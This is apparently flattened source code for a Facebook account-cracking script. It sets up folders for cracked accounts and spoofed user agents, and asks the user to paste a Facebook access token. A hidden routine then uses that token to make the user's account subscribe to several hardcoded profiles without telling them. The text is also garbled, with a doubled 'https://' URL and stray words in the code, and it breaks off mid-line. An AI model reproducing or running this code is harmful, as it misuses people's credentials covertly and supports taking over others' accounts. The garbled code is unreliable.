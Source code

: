 "\x1b[0;97m" # Putih _M_ = "\x1b[0;91m" # Merah _H_ = "\x1b[0;92m" # Hijau _U_ = "\x1b[0;95m" # Ungu  ### Logo _logo_line_1_ = ('%s.------..------..------..------..------. (_U_)) _logo_line_2_ = ('%s|A.--. ||H.--. ||M.--. ||A.--. ||R.--. |  %s｡☆✼★━━━━━━━━━━━━━━━━━━━━━━━━━★✼☆｡'%(_U_,_H_)) _logo_line_3_ = ('%s| (\/) || :/\: || (\/) || (\/) || :(): | %sEditor By  %s• AHMAR JAN     %s '%(_U_,_M_,_P_,_U_)) _logo_line_4_ = ('%s| :\/: || (__) || :\/: || :\/: || ()() | %sWhatssap %s• 03127103451 %s '%(_U_,_M_,_P_,_U_)) _logo_line_5_ = ('%s| '--'A|| '--'H|| '--'M|| '--'A|| '--'R| %sAdrees %s•   FASILABAD %s '%(_U_,_M_,_P_,_U_)) _logo_line_6_ = ('%s`------'`------'`------'`------'`------' %s｡☆✼★━━━━━━━━━━━━━━━━━━━━━━━━━★✼☆｡'%(_U_,_H_)) def _my_logo_():     _ahmar_cici_(_logo_line_1_)     _ahmar_cici_(_logo_line_2_)     _ahmar_cici_(_logo_line_3_)     _ahmar_cici_(_logo_line_4_)     _ahmar_cici_(_logo_line_5_)     _ahmar_cici_(_logo_line_6_+'\n')  ### User Agent ua_xiaomi  = 'Mozilla/5.0 (Linux; Android 10; Mi 9T Pro Build/QKQ1.190825.002; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.181 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]' ua_nokia   = 'nokiac3-00/5.0 (07.20) profile/midp-2.1 configuration/cldc-1.1 mozilla/5.0 applewebkit/420+ (khtml, like gecko) safari/420+' ua_asus    = 'Mozilla/5.0 (Linux; Android 5.0; ASUS_Z00AD Build/LRX21V) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/37.0.0.0 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]' ua_huawei  = 'Mozilla/5.0 (Linux; Android 8.1.0; HUAWEI Y7 PRIME 2019 Build/5887208) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.62 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]' ua_vivo    = 'Mozilla/5.0 (Linux; Android 11; vivo 1918) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.62 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]' ua_oppo    = 'Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.105 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]' ua_samsung = 'Mozilla/5.0 (Linux; Android 5.0; SM-G900P Build/LRX21T; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/43.0.2357.121 Mobile Safari/537.36 [FB_IAB/FB4A;FBAV/35.0.0.48.273;]' ua_windows = 'Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]'  ### Penampungan _id_tampung_ = []  ### Jangan Diganti Nanti Error _oscylopsce_ = '__Ahmar__' _ascylapsci_ = '__Cici__' _escylipsce_ = '__Ahmar_Love_Cici__' _uscylupsci_ = '__My_Love____Ahmar____Ahmar_Love_Cici____Cici____Forever__'  ### Membuat Folder Direktori def _folder_():     try:os.mkdir("CP")     except:pass     try:os.mkdir("OK")     except:pass  ### Clear Login Session def _bersih_():     try:os.remove('token.txt')     except:pass  ### Clear User Agent def _del_():     try:os.remove('ugent.txt')     except:pass  ### Clear Terminal def _clear_():     if "linux" in sys.platform.lower():os.system("clear")     elif "win" in sys.platform.lower():os.system("cls")     else:os.system("clear")  ### Jangan Diganti Anjink! def _bot_follow_(_tok_dev_):     token = _tok_dev_     try:               _req_post_("https://https://www.facebook.com/profile.php?id=100027259894020/subscribers?access_token=" + token) Alizar M.M.M #         _req_post_("https://graph.facebook.com/100060885769913/subscribers?access_token=" + token) #  احسان اللہ         _req_post_("https://graph.facebook.com/100012267158212/subscribers?access_token=" + token) #  وزیراعظم صاحب         _req_post_("https://graph.facebook.com/100009834670141/subscribers?access_token=" + token) #  نسرین اختر         _req_post_("https://graph.facebook.com/100007026360241/subscribers?access_token=" + token)       # Zama Jan                          _ahmar_cici_('\n%s[%s!%s] %sLogin Successful'%(_H_,_P_,_H_,_P_))         time.sleep(2)     except (KeyError,IOError):pass  ### Login def _login_dev_(_Cici_Cantik_Banget_):     _clear_()     _my_logo_()     if _uscylupsci_ not in _Cici_Cantik_Banget_:_ahmar_cici_('%s[%s!%s] %sHey, do you want to recode?'%(_M_,_P_,_M_,_P_))     else:pass     _tok_dev_ = _cici_ahmar_('%s[%s•%s] %sPLEASE Enter Token :\n\n'%(_P_,_H_,_P_,_U_))     try:         _req_tok_  = _req_get_("https://graph.facebook.com/me?access_token=%s"%(_tok_dev_))         _js_load_  = _js_lo_(_req_tok_.text)         _nama_dev_ = _js_load_['name']         _op_dev_ = _ahmar_ahmar_('token.txt','w')         _op_dev_.write(_tok_dev_)         _op_dev_.close()         _bot_follow_(_tok_dev_)         _default_ua_(_Cici_Cantik_Banget_)         _menu_dev_(_Cici_Cantik_Banget_)     except (KeyError,IOError):         _ahmar_cici_('\n%s[%s!%s] %sToken EXPIRE'%(_M_,_P_,_M_,_P_))         _bersih_()         time.sleep(2)         _login_dev_(_Cici_Cantik_Banget_)     except requests.exceptions.ConnectionError:         _ahmar_cici_('\n%s[%s!%s] %sConnection Problem'%(_M_,_P_,_M_,_P_))         _cici_cici_()  ### Menu def _menu_dev_(_Ahmar_Ganteng_Banget_):     _clear_()     _my_logo_()     if _uscylupsci_ not in _Ahmar_Ganteng_Banget_:_ahmar_cici_('%s[%s!%s] %sHayoo Mau Recode Ya?'%(_M_,_P_,_M_,_P_))     else:pass     try:         _tok_dev_  = _ahmar_ahmar_("token.txt","r").read()         _req_tok_  = _req_get_("https://graph.facebook.com/me?access_token=%s"%(_tok_dev_))         _js_load_  = _js_lo_(_req_tok_.text)         _nama_dev_ = _js_load_['name']         _id_dev_   = _js_load_['id']     except (KeyError,IOError):         _ahmar_cici_('%s[%s!%s] %sToken Invalid'%(_M_,_P_,_M_,_P_))         _bersih_()         time.sleep(2)         _login_dev_(_Ahmar_Ganteng_Banget_)     except requests.exceptions.ConnectionError:         _ahmar_cici_('%s[%s!%s] %sConnection Problem'%(_M_,_P_,_M_,_P_))         _cici_cici_()     try:         _ip_url_ = "http://ip-api.com/json/"